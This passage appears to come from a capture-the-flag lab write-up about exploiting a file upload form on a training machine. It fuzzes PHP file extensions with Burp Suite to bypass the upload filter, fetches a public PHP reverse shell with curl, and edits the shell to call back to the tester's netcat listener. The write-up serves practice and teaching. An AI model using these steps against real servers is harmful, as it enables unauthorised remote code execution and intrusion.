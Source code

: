The location `http://10.10.186.25:3333/internal/` has an internal file upload.
User inputs to websites are common vulnerability locations.

{{< figure src="/ox-hugo/vulnuniversity_upload.png" caption="<span class=\"figure-number\">Figure 1: </span>File upload form" >}}

The next step was to see what can be uploaded to server from this POST request.
The hope was that executable scripts could be uploaded to the server.


### Testing for file upload vulnerability {#testing-for-file-upload-vulnerability}

Burpsuite can help in finding file upload vulnerabilities.
This web server appeared to be a LAMP (Linux Apache MySQL PHP) server, so testing was focused on `PHP`.

-   .php
-   .php3
-   .php4
-   .php5
-   .phtml

The `PHP` reverse shell will be uploaded with the following extensions to attempt to get remote code on the target server.
Using Burpsuite intruder mode, `.phtml` files were shown to be uploaded to the server.

{{< figure src="/ox-hugo/phtml.png" caption="<span class=\"figure-number\">Figure 2: </span>Results from testing file uploads" >}}


### Prepare a reverse shell script {#prepare-a-reverse-shell-script}

A [reverse shell in PHP](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) was downloaded from GitHub.

```bash
url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
outfile="/tmp/reverse.php"
curl "$url" | tee "$outfile"
```

Next step was to find the IP address of the  `tun0` interface.

```bash
ip addr show dev tun0 \
| awk '/inet / { print substr($2, 1, length($2)-3)}'
```

```text
10.2.105.89
```

These variables were changed to point to a listening version of netcat.

```text
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
